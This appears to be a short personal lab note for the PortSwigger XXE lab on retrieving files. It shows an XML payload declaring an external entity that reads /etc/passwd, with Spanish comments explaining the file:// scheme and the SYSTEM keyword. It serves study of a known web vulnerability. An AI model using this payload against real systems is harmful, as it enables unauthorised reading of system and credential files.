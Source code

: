 Tags: #XXE #PortSwigger 

# Lab 1 XXE using external entities to retrieve files 

```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>      
	<root>
		&myFile;
	</root>


	<!-- Colocamos la ruta abosluta del archivo, lleva dos // mas porque es similar al http:// = file://   -->
	<!-- SYSTEM = Cargar una entidad externa, como si fuera una URL de un servidor externo-->
```